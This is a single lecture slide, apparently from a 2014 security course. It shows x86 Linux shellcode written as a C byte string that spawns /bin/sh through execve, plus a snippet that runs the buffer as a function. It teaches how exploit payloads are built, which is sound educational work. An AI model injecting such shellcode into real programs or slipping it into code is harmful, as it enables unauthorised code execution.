

# Encode in a String
char shellcode[] = "\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00" "\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80" "\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff" "\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00\x89\xec\x5d\xc3";
Shellcode is ready!

The shellcode can be called
void main() {
(*(void(*)()) shellcode)();
}

Fall 2014
47